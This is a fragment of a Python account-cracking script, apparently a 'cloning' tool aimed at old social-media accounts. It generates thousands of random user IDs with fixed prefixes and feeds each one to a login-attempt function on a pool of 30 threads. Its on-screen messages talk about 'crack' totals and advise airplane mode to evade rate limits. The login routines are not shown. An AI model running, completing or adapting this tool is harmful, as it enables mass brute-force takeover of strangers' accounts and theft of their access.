             if meth == 'A':
                pool.submit(login_1, uid)
            elif meth == 'B':
                pool.submit(login_2, uid)
            else:
                print(f"    {rad}[!] INVALID METHOD SELECTED")
                break


def old_Tow():
    """
    Cloning method for accounts with specific prefixes.
    """
    user = []
    ____banner____()
    print(f"       \x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mOLD CODE {Y}:{G} 2010-2014")
    ask = input(f"       \x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mSELECT {Y}:{G} ")
    linex()
    ____banner____()
    print(f"       \x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mEXAMPLE {Y}:{G} 20000 / 30000 / 99999")
    limit = input(f"       \x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mSELECT {Y}:{G} ")
    linex()
    prefixes = ['100003', '100004']
    for _ in range(int(limit)):
        prefix = random.choice(prefixes)
        suffix = ''.join(random.choices('0123456789', k=9))
        uid = prefix + suffix
        user.append(uid)
    print('       \x1b[38;5;196m(\x1b[1;37mA\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mMETHOD A')
    print('       \x1b[38;5;196m(\x1b[1;37mB\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mMETHOD B')
    linex()
    meth = input(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mCHOICE {W}(A/B): {Y}").strip().upper()
    with tred(max_workers=30) as pool:
        ____banner____()
        print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mTOTAL ID FROM CRACK {Y}: {G} {limit}{W}")
        print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mUSE AIRPLANE MOD FOR GOOD RESULT{G}")
        linex()
        for uid in user:
            if meth == 'A':
                pool.submit(login_1, uid)
            elif meth == 'B':
                pool.submit(login_2, uid)
            else:
                print(f"    {rad}[!] INVALID METHOD SELECTED")
                break
